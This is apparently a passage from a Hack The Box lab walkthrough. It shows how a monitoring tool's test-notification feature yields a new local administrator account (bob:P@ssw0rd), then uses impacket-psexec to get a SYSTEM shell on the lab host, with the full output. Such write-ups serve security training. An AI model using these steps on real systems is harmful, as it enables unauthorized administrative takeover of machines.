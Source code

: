 Click on the Editing button (pen on notebook icon) and click on the "Send Test Notification" button (bell icon).

<figure><img src="../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Now, the new user named bob is created and added to the local administrators group

Using the creds (bob:P@ssw0rd),

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/10.10.10.152]
└─# impacket-psexec bob@10.10.10.152
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file ArvSkHTP.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service JHxA on 10.10.10.152.....
[*] Starting service JHxA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```
